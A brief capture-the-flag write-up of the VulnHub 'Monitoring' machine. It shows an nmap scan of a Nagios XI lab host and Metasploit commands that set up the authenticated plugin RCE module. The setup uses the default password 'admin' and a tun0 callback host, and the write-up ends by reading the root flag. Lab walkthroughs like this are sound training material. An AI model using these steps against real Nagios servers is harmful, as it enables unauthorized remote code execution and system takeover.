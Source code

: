 ```yaml
---
description: VulnHub Monitoring machine writeup
cover: ../../.gitbook/assets/image (21).png
coverY: 0
---
```


# \[Easy] Monitoring

### Recon:

<pre class="language-c"><code class="lang-c">PORT    STATE SERVICE  VERSION
<strong>22/tcp  open  ssh      OpenSSH 7.2p2 Ubuntu 4ubuntu2.10 (Ubuntu Linux; protocol 2.0)
</strong>| ssh-hostkey: 
|   2048 b88c40f65f2a8bf792a8814bbb596d02 (RSA)
|   256 e7bb11c12ecd3991684eaa01f6dee619 (ECDSA)
|_  256 0f8e28a7b71d60bfa62bdda36dd14ea4 (ED25519)
25/tcp  open  smtp     Postfix smtpd
|_smtp-commands: ubuntu, PIPELINING, SIZE 10240000, VRFY, ETRN, STARTTLS, ENHANCEDSTATUSCODES, 8BITMIME, DSN
|_sslv2: ERROR: Script execution failed (use -d to debug)
80/tcp  open  http     Apache httpd 2.4.18 ((Ubuntu))
|_http-title: Nagios XI
389/tcp open  ldap     OpenLDAP 2.2.X - 2.3.X
443/tcp open  ssl/http Apache httpd 2.4.18 ((Ubuntu))
|_http-title: Nagios XI
| ssl-cert: Subject: commonName=192.168.1.6/organizationName=Nagios Enterprises/stateOrProvinceName=Minnesota/countryName=US
| Issuer: commonName=192.168.1.6/organizationName=Nagios Enterprises/stateOrProvinceName=Minnesota/countryName=US
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha1WithRSAEncryption
| Not valid before: 2020-09-08T18:28:08
| Not valid after:  2030-09-06T18:28:08
| MD5:   20f0951f8eff1b69ef3f1b1efb4c361f
|_SHA-1: cc400ad760cf49591c92d9ab0f06106c18f66661
| tls-alpn: 
|_  http/1.1
Service Info: Host:  ubuntu; OS: Linux; CPE: cpe:/o:linux:linux_kernel

</code></pre>

### Web

#### Homepage

<figure><img src="../../.gitbook/assets/image (14).png" alt=""><figcaption></figcaption></figure>

#### Login page

<figure><img src="../../.gitbook/assets/image (1) (3).png" alt=""><figcaption></figcaption></figure>

### Exploitation

Use a <mark style="color:yellow;">`nagios_xi_plugins_check_plugin_authenticated_rce`</mark> module in Metasploit:

<figure><img src="../../.gitbook/assets/image (16).png" alt=""><figcaption></figcaption></figure>

Set options:

<figure><img src="../../.gitbook/assets/image (12).png" alt=""><figcaption></figcaption></figure>

```bash
msf6 exploit(linux/http/nagios_xi_plugins_check_plugin_authenticated_rce) > set RHOSTS 192.168.125.136
msf6 exploit(linux/http/nagios_xi_plugins_check_plugin_authenticated_rce) > set SRVHOST tun0
msf6 exploit(linux/http/nagios_xi_plugins_check_plugin_authenticated_rce) > set PASSWORD admin
msf6 exploit(linux/http/nagios_xi_plugins_check_plugin_authenticated_rce) > set LHOST tun0
```

Run and get root and flag by way <mark style="color:yellow;">`/root/proof.txt`</mark>:

<figure><img src="../../.gitbook/assets/image (5) (3).png" alt=""><figcaption></figcaption></figure>
